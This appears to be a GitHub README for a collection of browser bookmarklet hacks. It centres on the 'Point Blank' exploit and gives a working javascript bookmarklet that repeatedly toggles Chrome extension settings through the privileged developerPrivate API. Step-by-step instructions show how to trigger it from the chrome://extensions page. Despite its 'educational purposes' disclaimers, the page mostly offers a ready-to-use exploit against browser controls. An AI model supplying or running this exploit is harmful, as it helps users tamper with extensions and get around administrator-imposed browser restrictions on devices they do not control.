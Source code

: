 Hey, welcome to the HackCollection. Here I enter in my hacks.
ALL MY HACKS ARE BOOKMARKLETS!
I do not condone hacking, this is for educational purposes.
This is all subject to change. Feel free to make issues and I will be sure to add the updated hacks.

If you have any issues please let me know.


HOW TO USE

 Once you have found a hack you like, you are to double click it and drag it to your Bookmark Bar. once you are done, just go to said site and click the bookmark.


CREDIT GOES TO hostedposted, AgrTheDev AND milantje200
Point Blank is an exploit that allows you to run bookmarklets on privilaged pages, sutch as the chrome extentions page. This exploit was also found by Bypassi, you can read more about how he discovered this exploit You can either use the prompt or the gui the prompt is below 1. Bookmark this code:
javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 145);
And the gui is in launcher.js 2. Navigate to chrome://extensions 3. Click on a extension that YOU installed from the Chrome Web Store > Details 4. In the URL bar, copy the string of letters and numbers after the /?id= 5. Click "View in Chrome Web Store" and spam the excape key. If it loads into chrome webstore try again, if it is a blank screen click the bookmarklet 5. Paste the id of the extension into the prompt or input box seperated by commas. If you close the tab, the exploit will stop working.

Please use this only when you have permisson, I (cj-hacks) do not condone the use of this exploit for illegal purposes!
(speech made by 3kh0)

